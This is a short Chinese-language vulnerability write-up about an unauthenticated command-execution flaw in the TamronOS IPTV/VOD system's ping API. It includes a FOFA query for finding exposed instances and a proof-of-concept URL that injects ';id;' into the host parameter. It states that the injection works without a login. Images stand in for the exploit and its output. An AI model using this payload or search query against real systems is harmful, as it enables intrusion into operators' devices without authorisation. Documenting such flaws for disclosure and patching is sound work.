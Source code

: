 ## TamronOS IPTV系统存在前台命令执行漏洞

## 漏洞描述

TamronOS IPTV/VOD系统是一套基于Linux内核开发的宽带运营商、酒店、学校直播点播一体解决方案，系统提供了多种客户端（Android机顶盒、电视、PC版点播、手机版点播）方便用户通过不同的设备接入。由于未对ping接口进行限制，造成了命令执行漏洞。并且可以前台命令执行

## 漏洞影响

> TamronOS IPTV 所有版本

## FOFA

> title="TamronOS IPTV系统"

## 复现

1）登录界面

![1](resource/TamronOS-IPTV系统任意用户添加修改/1.jpg)

2）POC如下：

```
 /api/ping?count=5&host=;id;&port=80&source=1.1.1.1&type=icmp
```

![2](resource/TamronOS-IPTV系统前台命令执行/2.png)

![3](resource/TamronOS-IPTV系统前台命令执行/3.png)

3) EXP如下：

![4](resource/TamronOS-IPTV系统前台命令执行/4.png)

 然后利用POC去前台(未登录状态)尝试进行命令执行：

![5](resource/TamronOS-IPTV系统前台命令执行/5.png)

上图为没有cookie的未登录状态进行命令执行。